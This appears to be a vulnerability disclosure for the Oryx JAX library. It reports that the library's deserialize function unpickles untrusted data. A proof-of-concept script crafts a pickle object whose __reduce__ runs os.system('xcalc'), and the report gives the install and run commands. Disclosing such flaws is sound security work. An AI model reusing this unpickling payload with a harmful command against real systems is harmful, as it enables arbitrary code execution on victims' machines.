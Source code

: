 # Description
Oryx is a library for probabilistic programming and deep learning built on top of Jax. The approach is to expose a set of function transformations that compose and integrate with JAX's existing transformations.
* **Vulnerability description**
    untrusted loading of data by the pickle.load function leading to Arbitrary code execution.

# Proof of Concept
Run exploit.py
```
import os
import pickle
#os.system('pip3 install oryx')
from oryx.core import serialize
#payload formation
class ArbitraryCode:
    def __reduce__(self):
        cmd = ('xcalc')
        return os.system, (cmd,)
#exploiting
dumps = pickle.dumps(ArbitraryCode())
serialize.deserialize(dumps)
```
* `pip3 install oryx`
* `python3 exploit.py`
